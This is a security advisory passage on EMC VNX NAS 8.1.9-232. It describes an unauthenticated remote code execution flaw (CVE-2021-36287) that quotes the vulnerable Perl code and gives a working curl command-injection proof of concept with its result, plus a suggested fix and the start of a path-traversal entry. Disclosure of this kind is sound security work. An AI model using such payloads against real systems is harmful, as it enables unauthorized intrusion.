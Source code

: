 ```yaml
---
title: Security Advisory // Multiple vulnerabilities in EMC VNX NAS 8.1.9-232
---
```


Vulnerabilities Discovered
==========================

CVE-2021-36287: Critical: Unauthenticated Remote Code Execution
-----------------------------------------------
The perl module ```/nas/http/scripts/Apache/TicketLogin.pm``` does not sanitize GET user input before passing these parameters to a function that passes a concatenated string to the shell:

```perl
sub handler {
    my($user, $pass, $scope, $ldap, $remember_me) = map { param($_) } qw(user password scope ldap remember_me);
    ...
    ($result, $msg, $user_access) = $ticketTool->authenticate_local_user($user, $pass, $client_type);
}

sub authenticate_local_user {
    my($self, $user, $passwd, $client_type) = @_;
    my $prog = "|/nas/sbin/check_user ";
    $prog = $prog . '"' . $user . '" 1>/dev/null 2>&1';
    open PWAUTH, "$prog";
    ...
}
```

This allows an unauthenticated remote attacker to run arbitrary commands on the server as the ```apache``` user.

Example RCE:
```shell
curl -k -s 'https://xxx/Login?user=user%22||touch%20/var/tmp/rce||%22=&password=error&Login=Login'
```

Results in:
```
[root@xxx /]# ll /var/tmp/
-rw-r--r-- 1 apache apache       0 Sep 22 13:45 rce
```

### Suggested fix
Add a regexp check on the username, ```[a-zA-Z0-9]```.

CVE-2021-36288: Unauthenticated Restricted File read/write through path traversal
-----------------------------------------------------------------
The shell script ```/nas/http/bin/link_launch_user_details``` does not sanitize GET user input and notably fails to verify that the supplied file parameter is in the expected directory once the path has been fully resolved:
